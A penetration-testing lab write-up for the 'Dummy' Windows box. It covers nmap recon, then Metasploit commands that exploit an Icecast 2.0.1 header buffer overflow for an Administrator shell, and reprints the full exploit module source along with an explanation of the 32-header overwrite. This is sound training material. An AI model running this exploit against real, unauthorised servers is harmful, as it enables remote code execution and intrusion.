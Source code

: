 ```yaml
---
layout: post
title: Wizard Labs - Dummy
categories: wizard-labs
tags: [Windows, Web, Buffer Overflow, RCE]
image: /wizardlabs/dummy/0.png
---
```


<hr>
### Quick Summary
#### Hey guys this is my write-up about Dummy from [Wizard Labs](https://labs.wizard-security.net/). If you don't know them , They are a new penetration testing lab, They have 16 boxes so far and Dummy is their first box to retire. This lab is nice I definitely recommend checking it out. Dummy is a windows box and it was an easy one (Difficulty: 2/10). It had an http service which was vulnerable to a buffer overflow , and metasploit had a module for it so this box can be done easily through metasploit . I will show that, then we will take a look at the exploit and how it's happening. The ip of the box is 10.1.1.13 so let's jump right in.
![](/images/wizardlabs/dummy/0.png)
<hr>
### Nmap
#### As we always do we will start by scanning the box with nmap , so :
`nmap -sV -sT -sC 10.1.1.13`
![](/images/wizardlabs/dummy/1.png)
#### We see a lot of open ports , most of the http ports are running Microsoft HTTPAPI, we will ignore that and look at other things. We also see that the box has smb which is an interesting thing to look at so let's try smbmap
`smbmap -H 10.1.1.13`
![](/images/wizardlabs/dummy/2.png)
#### And we immediately get Access Denied so smb is not helpful here.
#### On port 8000 there's an http server and it's not running Microsoft HTTPAPI , it's running [Icecast streaming media server](http://icecast.org/). Let's check that port
<br>
<hr>
### Icecast
![](/images/wizardlabs/dummy/3.png)
#### If we go to that port we get a 404 response which is odd. We can try bruteforcing directories with dirbuster but that won't help too much.
#### By searching online we will find that an old version of icecast had a buffer overflow vulnerability which allowed for a remote code execution (RCE). And we also find a [metasploit module](https://www.rapid7.com/db/modules/exploit/windows/http/icecast_header) . So let's open metasploit and search for icecast modules.
<br>
<hr>
### Metasploit
#### By doing `search icecast` we will find the module , and it's an exploit from 2004. 
![](/images/wizardlabs/dummy/4.png)
`use windows/http/icecast_header`
<br>
`set LHOST 10.253.xx.xx`
<br>
`set RHOST 10.1.1.13`
<br>
`exploit`
![](/images/wizardlabs/dummy/5.png)
#### And we got a meterpreter session. we can drop a shell by typing `shell` then if we type `whoami` we will find that we are already Administrator so no need for privilege escalation
![](/images/wizardlabs/dummy/6.png)
#### Then we can grab the flags 
![](/images/wizardlabs/dummy/7.png)
<hr>
### Header Overwrite
#### So now we did the box , but let's understand the exploit. basically it's a buffer overflow vulnerability, it happens because that version of icecast only accepted a maximum of 32 headers in the HTTP request , so if a request had 32 headers this caused the return address of the vulnerable function to be overwritten with a pointer to the begining of the header number 32. this means that anything we add as the 32nd header will be executed
#### So if we make a request with 31 headers and add shellcode as the 32nd header we can get a reverse shell and that's what metasploit is doing. But if we look at the [source](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/http/icecast_header.rb) of the module :
```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = GreatRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Icecast Header Overwrite',
      'Description'    => %q{
        This module exploits a buffer overflow in the header parsing of icecast
        versions 2.0.1 and earlier, discovered by Luigi Auriemma. Sending 32
        HTTP headers will cause a write one past the end of a pointer array. On
        win32 this happens to overwrite the saved instruction pointer, and on
        linux (depending on compiler, etc) this seems to generally overwrite
        nothing crucial (read not exploitable).

        This exploit uses ExitThread(), this will leave icecast thinking the
        thread is still in use, and the thread counter won't be decremented.
        This means for each time your payload exits, the counter will be left
        incremented, and eventually the threadpool limit will be maxed. So you
        can multihit, but only till you fill the threadpool.
      },
      'Author'         => [ 'spoonm', 'Luigi Auriemma <aluigi[at]autistici.org>' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2004-1561'],
          [ 'OSVDB', '10406'],
          [ 'BID', '11271'],
          [ 'URL', 'http://archives.neohapsis.com/archives/bugtraq/2004-09/0366.html'],
        ],
      'Privileged'     => false,
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'thread',
        },
      'Payload'        =>
        {
          'Space'    => 2000,
          'BadChars' => "\x0d\x0a\x00",
          'DisableNops' => true,
          'StackAdjustment' => -3500,
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'Automatic', { }],
        ],
      'DisclosureDate' => 'Sep 28 2004',
      'DefaultTarget' => 0))

    register_options(
      [
        Opt::RPORT(8000)
      ])
  end

  # Interesting that ebp is pushed after the local variables, and the line array
  # is right before the saved eip, so overrunning it just by 1 element overwrites
  # eip, making an interesting exploit....
  # .text:00414C00                 sub     esp, 94h
  # .text:00414C06                 push    ebx
  # .text:00414C07                 push    ebp
  # .text:00414C08                 push    esi

  def exploit
    connect

    # bounce bounce bouncey bounce.. (our chunk gets free'd, so do a little dance)
    # jmp 12
    evul = "\xeb\x0c / HTTP/1.1 #{payload.encoded}\r\n"
    evul << "Accept: text/html\r\n" * 31;

    # jmp [esp+4]
    evul << "\xff\x64\x24\x04\r\n"
    evul << "\r\n"

    sock.put(evul)

    handler
    disconnect
  end
end

```
#### There's not much detail because it's based on metasploit so luckily I found this [refrence](https://securitytracker.com/id/1011439) which had a poc c code. 
#### By looking at this part of the code :
![](/images/wizardlabs/dummy/8.png)
#### We can see how the exploit is working. It's doing a GET request , adding 31 "a"s as headers , then the 32nd header is the shellcode.
#### If you want to know more about bufferOverFlows check out my [other articles](/categories)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
#### Next Wizard Labs Write-up : [Wizard Labs - Devlife](/wizard-labs/dummy/)
<hr>
